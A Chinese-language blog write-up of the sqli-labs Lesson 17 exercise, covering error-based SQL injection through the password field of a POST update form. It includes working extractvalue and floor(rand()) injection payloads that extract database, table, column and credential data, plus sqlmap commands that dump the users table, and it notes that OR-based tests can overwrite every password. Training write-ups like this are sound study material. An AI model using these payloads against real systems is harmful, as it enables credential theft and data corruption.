 ```yaml
---
title: sqli-labs lession 17 POST基于错误的更新
date: 2018-09-28 09:11:00
tags:
categories: sql注入
---
```

# sqli-labs lession 17 POST基于错误的更新 #
---

## 登录界面 ##

![1](/img/sql/Lesson-17/1.png)

## 手注 ##

### 分析 ###

根据题目意思要利用的是Update的错误。先检查一下UserName这一块。

发现输入一些信息后无论怎样都没触发错误。检查源码

![2](/img/sql/Lesson-17/2.png)

发现uname被check_input函数处理了。通读代码,理解一下什么意思。

	function check_input($value)
	{
	if(!empty($value))
		//检查传入的账号名为非空
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		//限制用户名长度为15以下,如果传入的用户名超过15位会只使用前15位
		}
	
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
		//获取当前php.ini配置文件中magic_quotes_gpc的配置选项设置

<font color=red>用phpstudy切换版本php5.2.17+Aphache</font>

可以看到php.ini配置文件中`magic_quotes_gpc`配置打开了。

![3](/img/sql/Lesson-17/3.png)

在php.net查看该函数详细信息。

![4](/img/sql/Lesson-17/4.png)


* 当php.ini里的magic_quotes_gpc=On时，提交的变量中所有的单引号，双引号，反斜线，NUL（NULL字符）会自动转为含有反斜线的转义字符

* 魔术引号（Magic Quote）是一个自动将进入PHP脚本的数据进行转义的过程。（对所有的GET，POST，Cookie数据进行转义）

这就是我输入的数据没被数据库解析的原因,它把引号转义了。

			{
			$value = stripslashes($value);
			//使用stripslashes()去掉多余的反斜杠
			}
	
		// Quote if not a number
		if (!ctype_digit($value))
			//检查$value是不是十进制数字,如果不是就执行if中的语句

![5](/img/sql/Lesson-17/5.png)

给特殊字符添加转义

			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			//转义特殊字符并用''拼接
			}
		else
			{
			$value = intval($value);
			//获取$value的整数值
			}
		return $value;
	}

写个`admin'`进去,它就做了如下处理

![6](/img/sql/Lesson-17/6.png)

根据上述username不是很好利用,利用password。因为password没有经过函数过滤。

![7](/img/sql/Lesson-17/7.png)

根据题目提示,发现这里其实是一个update的功能,用来修改账户的密码。

只要用户名查询存在,可以修改任意密码。

![8](/img/sql/Lesson-17/8.png)

修改admin用户密码为123456,提交。

![9](/img/sql/Lesson-17/9.png)

密码修改成功。

### 判断类型 ###

为了实验成功先确认php.ini文件中`magic_quotes_gpc`为`Off`,因为它是一个全局配置,启用下会将对POST请求的password中的特殊字符转义。

![10](/img/sql/Lesson-17/10.png)

单引号报错,构造报错注入。

### 获取当前数据库 ###

`' and extractvalue(null,concat(0x7e,database(),0x7e))#`

![11](/img/sql/Lesson-17/11.png)

### 获取表 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`

![12](/img/sql/Lesson-17/12.png)

### 获取列 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))#`

![13](/img/sql/Lesson-17/13.png)

### 获取字段值 ###

![14](/img/sql/Lesson-17/14.png)

`' and (select 1 from (select count(*),concat((select concat(id,'-',username,'-',password) from security.users limit 0,1), '~' , floor (rand()*2))as a from information_schema.tables group by a) as b limit 0,1) #`

## SQLMAP ##

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" --threads 10 --technique E`

![15](/img/sql/Lesson-17/15.png)


![16](/img/sql/Lesson-17/16.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" -D security -T users --columns --dump`

![17](/img/sql/Lesson-17/17.png)

我擦,sqlmap这个payload把密码全改成了0,这个有待观察。

查了一些资料,终于找到问题了,update报错注入要注意不能带入or的测试用例,不然会给数据库数据带来翻天覆地的变化。下面我的url地址换了,不过其实一样。

刚开始数据库信息:

![18](/img/sql/Lesson-17/18.png)

```
--data:指定请求信息

-p:指定参数

--dbms:指定后端数据库

--threads:指定并发线程数

--method:指定请求方式

--flush-session:清除session

--fresh-queries:发起新的请求

--level 1:尝试POST和GET注入 

--risk 1:仅测试常见用例

--technique E:仅测试报错注入方式
```

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST --flush-session --fresh-queries --level 1 --risk 1 --technique E`

![19](/img/sql/Lesson-17/19.png)

在出现这条提示后先不要执行,查看数据库,发现admin账号的密码被修改。

![20](/img/sql/Lesson-17/20.png)

<font color=red>已经找到了可能注入点,不需要测试所有用例,因为所有用例中必定会有or的用例,会对数据库进行破坏,选n</font>

![21](/img/sql/Lesson-17/21.png)

继续用no

![22](/img/sql/Lesson-17/22.png)

接下来就对了。

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST  --level 1 --risk 1 --technique E -D security -T users --columns --dump`

![23](/img/sql/Lesson-17/23.png)